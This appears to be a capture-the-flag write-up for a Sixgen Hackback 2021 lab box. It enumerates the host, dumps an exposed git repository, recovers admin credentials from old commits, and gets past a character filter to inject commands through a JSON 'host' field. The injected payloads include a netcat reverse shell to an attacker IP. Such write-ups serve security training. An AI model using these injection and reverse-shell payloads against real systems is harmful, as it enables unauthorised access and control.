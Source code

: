 ##SixgenHackback 2021
ISP user

@Autor Kostas Karnavas

###Enumeration:

Running this scan :
nmap -A -p- -O -sC -sV -oN ISP_nmap.txt 10.129.226.116

We get this.
80/tcp open  http    nginx 1.10.3
| http-git: 
|   10.129.226.116:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Updated authentication mechanism 
|     Remotes:
|_      https://github.com/TCGeek/SLAN-Website.git


Looking around i found a way do download this with git-dumper.

```bash
git-dumper https://github.com/TCGeek/SLAN-Website.git
```

If you look in the logs we see this

git log                                                  
commit e25446b87742e7dc1d1c67b79ec22d5346017c35 (HEAD -> main, origin/main)
Author: TCG <tcg@localhost.localdomain>
Date:   Fri Sep 24 15:35:07 2021 +0100

    Updated authentication mechanism

commit 9f603a39df1f26c79ab97b7806733c050b53bb75
Author: TCG <tcg@localhost.localdomain>
Date:   Fri Sep 24 15:32:30 2021 +0100

    Remove database file

commit 5e5ea07c3f30427e6e3a042416223fd484503bc4
Author: TCG <tcg@localhost.localdomain>
Date:   Fri Sep 24 15:24:50 2021 +0100

    First Commit (edited)
[1:59 AM]




So we try to revert back to the commit where the database isnt  removed

We can do this with this command:
git reset --hard 5e5ea07c3f30427e6e3a042416223fd484503bc4

In the database table we find these credentials
admin|ComplexISPPassword2021

In the admin panel there is a ping command where we inject some ip.
We can inject our own code there.
The characters  '&&',';','||','|'.'`','<','>','?','*' are blacklisted and removed
Instead we can try
{"host":"$(whoami)"}
It works!

![alt text](command.png "Title")


Now we can get a reverse shell using this payload:
{
    "host":"$(nc -e /bin/sh 10.10.14.6 1234)"
}

>Now in the /root folder there is user.txt














